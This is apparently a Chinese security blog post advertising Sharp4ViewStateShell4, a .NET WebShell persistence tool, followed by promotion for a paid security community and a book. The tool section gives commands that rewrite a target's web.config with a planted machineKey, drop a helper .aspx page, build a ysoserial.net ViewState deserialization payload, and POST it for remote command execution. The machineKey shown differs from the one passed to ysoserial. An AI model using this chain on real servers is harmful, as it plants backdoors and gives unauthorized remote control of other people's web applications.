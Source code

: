 #  实战级权限维持，从配置到命令执行一键部署 ViewState WebShell  
原创 专攻.NET安全的  dotNet安全矩阵   2025-07-01 00:31  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，权限维持是核心环节之一。尤其在面对已成功打点的 .NET Web 服务时，如何在不落盘、不依赖权限提升的前提下，实现长时间稳定控制，始终是红队技术演进的方向。  
  
**Sharp4ViewStateShell4**  
，正是围绕该目标设计的一款**新一代 .NET Web 权限维持工具**  
。基于经典的 ViewState  
 反序列化漏洞实现远程命令执行，同时通过自动化配置修改、辅助脚本释放与防护绕过等多重手段，构建出一个更稳定、隐蔽、适配性更强的 WebShell 渗透利用链。  
  
**01. 工具基本介绍**  
  
  
  
Sharp4ViewStateShell4.exe 是对原有 Sharp4ViewStateShell 系列工具的重构与增强，核心能力包括：释放随机命名的辅助脚本，用于获取必要的 __VIEWSTATEGENERATOR 值，自动释放绕过配置 Web.config，防止脚本运行限制与目录统一重定向策略，增强落地成功率。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxxRNiasr5jbicmos4FTWyy8EVej06FkZbySIiccXDu0PLsDwiaOGDDbylXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**02. 工具实战用法**  
  
  
  
.NET 的 ViewState 功能本质是为了解决 Web 应用的无状态问题，保存控件状态信息。但如果目标应用开启了 EnableViewStateMac="true"  
 并使用弱或可控的 MachineKey，攻击者就可以伪造 ViewState，借助 ysoserial.net 工具构造反序列化链，从而实现命令执行RCE。  
## 2.1 一键修改配置文件  
  
修改目标  
假设目标站点的物理路径为：C:\  
inetpub\wwwroot\，  
在具有写入权限的目录，Upload  
下执行如下命令：  
  
```
Sharp4ViewStateShell4.exe "C:\inetpub\wwwroot"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxAeQh70XtXXL3y85HE4eyibnVpzf7c9ouZicuUyMpjVMm77bs68gusNOg/640?wx_fmt=png&from=appmsg "")  
  
该命令会完成以下操作：修改**web.config**  
，插入预设的MachineKey：  
  
```
<machineKey validationKey="B8D7C72D38E8972EA6B955F2D4C8D5B0A2E3F4C6A9B1D3E5F7A9C8B6D4E2F1"  decryptionKey="E4D5C6B3A8F9E7D6C5B4A3F2E1D0C9B8A7"  validation="SHA1"  decryption="AES"/>
```  
  
  
**在Upload目录下生成随机的脚本名，用于获取**__VIEWSTATEGENERATOR  
值，比如**HBJhbo_GenerateViewState.aspx。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxFDtNYjI2ib72cO78FvCFe7aCazsFibyxPovBA3XJgjZR295TH1EkWOaQ/640?wx_fmt=png&from=appmsg "")  
## 2.2 构建测试载荷  
  
只需根据辅助脚本获取的 __VIEWSTATEGENERATOR  
 值，并结合工具预设的 MachineKey，即可使用 ysoserial.net  
 工具构造反序列化 payload：  
  
```
ysoserial.exe -p ViewState -g XamlAssemblyLoadFromFile -c "./ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll" \--validationalg="SHA1" \--validationkey="28E969418EFBAF7DAF4A05B12A9F588774129BA306ED094A0C9CA70A45F6C4A83512EB9CF050D7261ADA8E57728B830E540BC26394CEF1F43AEC642AD61D894F" \--decryptionalg="AES" \--decryptionkey="F6F6CB3C4FE662991CEF709C5A2ACDDD228FDF21CD708186736FE4B3E008B3A6" \--generator="DBC4925F"
```  
  
  
该命令会输出Base64编码的__VIEWSTATE  
值，用于后续操作，  
构造POST请求，将生成的ViewState数据发送至目标。  
  
```
POST /随机名_GenerateViewState.aspx HTTP/1.1Host: target.comContent-Type: application/x-www-form-urlencodedContent-Length:1024__VIEWSTATE=[Base64 Payload]
```  
  
  
如一切配置正确，将在页面响应中看到命令结果，比如 tasklist  
。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicBY5QtCNOPbsHFicvibgFQHwuJcKPTAoUXxMTwdibUYa7pCiarN2Sv27QI1AMuR7erc5Mk5dQFqfV9tA/640?wx_fmt=png&from=appmsg&watermark=1&wxfrom=5&wx_lazy=1&tp=webp "")  
  
综上，  
Sharp4ViewStateShell4.exe  
 释放了一个GenerateViewState脚本，更加容易获取__VIEWSTATEGENERATOR 参数值，再加上  
利用了 .NET 的 ViewState 反序列化机制配合自定义 MachineKey，实现持久化远程命令执行，非常适合在红队渗透中用于权限维持。  
文章涉及的工  
具已  
打包在星球，感兴趣的朋友可以加入自取。  
  
**03.NET安全扩展学习**  
  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**04. 技术精华内容**  
  
  
  
从漏洞分析到安全攻防，我们涵盖了 .NET 安全各个关键方面，为您呈现最新、最全面的 .NET 安全知识，下面是公众号发布的精华文章集合，推荐大伙阅读！  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499267&idx=2&sn=1462cf23c9a8568cc80705d2d3a1a69e&scene=21#wechat_redirect)  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499837&idx=2&sn=a8a2483424b1932e7ec931be792744ba&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247493952&idx=4&sn=db68011fb075c1d02268811163646b53&chksm=fa5947adcd2ecebbb1ca6659f289a5e344e37d1136fe0bd9272b5578e4c71bb19bb250e934d3&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247495167&idx=1&sn=9280c55fdc7c9146e549be470cf9f120&chksm=fa594312cd2eca04bfe8fd1fd3890b389d9c700b9b69d897f919addac399bab4f4d2e55f6b4f&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490722&idx=2&sn=c9807daa5548e139a0c67303cb26882a&chksm=fa5ab24fcd2d3b59a85be03e69c655ffd644e8458bc2ec3f572da4b40b43e5003fda756f35b4&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490703&idx=2&sn=e7db1ff662e5b41d9a1806fbdf33e204&chksm=fa5ab262cd2d3b7470f029b9a07d1dd3611e63be910b01a601144efe7d84b5f016f488a354cf&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490700&idx=2&sn=e8a865ada7c743e77fb9e953c5da74b1&chksm=fa5ab261cd2d3b7736387eddfc8524a378a1604552d0c9b55476646f9e8275f48818aab8acad&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488736&idx=2&sn=d24aaa297c51eb620ccdf67af513086d&chksm=fa5aba0dcd2d331bbb22f3f5657199d718c90efed42fcb9cb67ec23d342f887c117e4858f1cb&scene=21#wechat_redirect)  
  
  
**05. 加入安全社区**  
  
  
  
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最专业的技术知识库之一，超 **1200+**  
 成员一起互动学习。星球主题数量近 **600+**  
，精华主题   
230+  
，PDF文档和压缩包   
300+   
。从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的实战指南和最佳实践。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9AiaXibTRdEnEfYuQx76FjZVjmyEWtIaDuDePFFmyRqggiaq2k47pLoib9GZtUCOhaP40WPlhvbiaKZVg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 20+专栏文章  
  
星球文化始终认为授人以鱼不如授人以渔！星球整理出**20+**  
个专题栏目涵盖 **.NET安全 点、线、面、体等知识范围**  
，助力师傅们实战攻防！其中主题包括.NET  内网攻防、漏洞分析、内存马、代码审计、预编译、反序列化、WebShell免杀、命令执行、工具库等等。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa90SJRuwnLy9uZV4icrXiaZlJPQlYJWXTw8HCrF9oTcE3DDgrdFnXo2BA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 海量资源和工具  
  
截至当前，dot.Net安全矩阵星球社区汇聚了   
**600+**  
 个实用工具和高质量PDF学习资料。这些资源涵盖了攻防对抗的各个方面，在实战中能够发挥显著作用，为对抗突破提供强有力的支持。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaqVZW8XsALVA4FNiaj32q8npN82VSeqSKb4fQvLiczFNs0099VRFVQwPA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa63ZXbX3YXLwoeNnjStcRtTbU9hoe6ecO5hhkj2apG1I6tKlkpz5GaQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
## 专属成员交流群  
  
我们还有多个成员专属的  
**内部星球陪伴群**  
，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaAiaouHb6HYza539m9v0ykDoD2JezaArDZBPlJInuabf6XsduzVcjZ0Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
## 已入驻的大咖们  
  
星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多  
**高质量的.NET安全资源**  
，可以说市面上很少见，都是干货。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibEkb2HkMVuw4d7qjcTYUtl04w8xDiaUaJxticro644uWw5XuJ6ZXCNXCticjYWjpXNmp3omQHUNFRPg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
## 欢迎加入我们  
  
dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
**星球门票后期价格随着内容和质量的不断沉淀会适当提高，因此越早加入越好！**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopag09JtYcKpucjZPAlfeqC1ovcQvhrkemAzbURDaVF3InmpQshiatDnyQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
